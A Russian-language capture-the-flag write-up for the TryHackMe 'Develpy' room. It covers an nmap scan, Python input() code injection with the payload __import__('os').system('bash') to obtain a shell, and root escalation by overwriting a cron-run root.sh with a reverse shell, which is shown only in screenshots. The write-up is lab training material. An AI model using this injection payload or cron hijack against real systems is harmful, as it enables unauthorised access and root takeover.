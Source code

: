 # Develpy

:white_check_mark: **nc**

:white_check_mark: **python**

:white_check_mark: **crontab**
___

## Разведка
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```

## Получение оболочки
Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```

## Повышение привилегий
Посмотрим что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)
